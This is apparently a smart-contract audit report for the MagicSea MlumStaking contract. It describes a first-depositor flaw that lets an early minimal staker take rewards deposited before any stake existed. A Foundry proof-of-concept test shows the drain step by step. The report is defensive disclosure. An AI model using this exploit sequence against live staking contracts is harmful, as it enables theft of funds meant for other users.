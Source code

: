 Sticky Pink Chimpanzee

High

# Malicious user can drain entire rewards balance

## Summary
If rewards are added before any deposit is made, the first depositer can drain the entire reward that was deposited before they made their deposit.

## Vulnerability Detail
`MlumStaking.sol`  calculates reward based on `rewardDebt`,  `_accRewardsPerShare` and other varibales. The issue arises when the protocol decides to deposit into the contract before any deposit is made, then the first person to deposit the staking token into the contract will be allocated all the rewards that was previously deposited regardless of the length of duration or size of the deposit and can withdraw it at anytime they want as far as there is a second deposit to update the contract which they can perform the second deposit transaction by themselves.
Vulnerability Flow :
Dev deploys contract and deposits reward tokens into the contract
Bob deposits into the contract since staked token is zero _update is skipped
Bob or another user (Alice) deposits into the contract making updating the contract in Bob's favour.

Again Bob can withdraw this anytime he wants 

I logged out some values after I tweaked `MlumStaking.t.sol` , so you'll run these tests in the test contract 

`function testHarvest() public {
    _rewardToken.mint(address(_pool), 100_000_000);
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 2 ether);
_stakingToken.mint(CANDY, 2 ether);
                skip(5);

 // first depositer 
 vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(0.0001 ether, 1 days);
        vm.stopPrank();

skip(1);
// alice second depositer 
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 365 days);
        vm.stopPrank();
        
        skip(1);
           vm.startPrank(CANDY);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 365 days);
        vm.stopPrank();

        skip(10 days);
// alice tries to claim withdraw rewards
        vm.prank(ALICE);
        _pool.harvestPosition(2);

        console.log(_rewardToken.balanceOf(ALICE), "alice reward balance");
       
// candy too tries to withdraw rewards
        skip(1 days);
        vm.prank(CANDY);
        _pool.harvestPosition(3);
console.log(_rewardToken.balanceOf(CANDY), "CANDY reward balance");

skip(1 days);
// bob then comes to withdraw rewards
vm.prank(BOB);
_pool.harvestPosition(1);
console.log(_rewardToken.balanceOf(BOB), "BOB reward balance");
console.log(_rewardToken.balanceOf(address(_pool)), "pool reward balance");
}
`  

As we can see Bob carries all the first withdrawal with minimal stake and minimal duration 


## Impact
Entire protocol rewards meant fpor multiple users  can be drained and this can be done with very little funds .

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L580

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L678-L681

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L667

## Tool used

Manual Review

## Recommendation
The reward system should be re-evaluated in respect to this  because the recomendation I'm thinking of will introduce new bugs.

The sponsors might argue that they won't deposit at that time but this was not listed as a known issue 